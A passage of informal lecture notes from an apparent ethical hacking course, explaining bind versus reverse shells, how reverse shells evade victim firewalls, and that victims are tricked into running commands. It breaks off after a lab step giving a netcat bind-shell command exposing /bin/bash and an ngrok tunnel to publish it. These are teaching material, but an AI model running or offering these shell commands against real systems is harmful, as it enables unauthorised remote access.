 			- Q : why firewall (of Victim's system) will block the IP-address (of attacker) <br>Ans : cuz we (as a attacker) going to the Victim's system to establish the connection
		- while doing Reverse Shell , 
			- Q : Eg : when u (as a server) do screen-share ur system via Any-desk , then is any-desk ever stopped u ? <br>like u can't share ur screen , etc .. <br>Ans : No , cuz u (as a server) bringing connection - means u're giving the connection of ur system to someone else
			- then in this situation , firewall of Victim's system will not stop the connection to establish with someone else
			- so in Reverse shell , Victim's system - itself brings the connection
	- in Both Bind Shell & Reverse shell , <br>Q : why Victim run the command ✔<br>Ans : Victim will not run the command , we (as a attacker) make the Victim <br>that he/she will execute the command - via using a trick
	- Conclusion Pic : <br><img src="../notes-pics/03-Module/20_lecture/20_lecture-9-M3.jpg" alt="" width="500"/>
- let's see the practical of both Bind Shell & Reverse Shell

### Practical Work : Bind Shell & Reverse Shell
- Practical Work : Bind Shell
	- STEP 0 : in both kali terminal (of Victim + attacker machine), run `sudo su`
	- STEP 1 : u're a Victim (i.e server) & in ur kali terminal , run `nc -lvp 8686 -e /bin/bash`
		- output <br><img src="../notes-pics/03-Module/20_lecture/20_lecture-10-M3.jpg" alt="" width="500"/>
		- in output , "connect to [ip-address] from localhost [ip-address] portno." : means someone is connected ✔
	- STEP 1.1 : then run `./ngrok tcp 8686`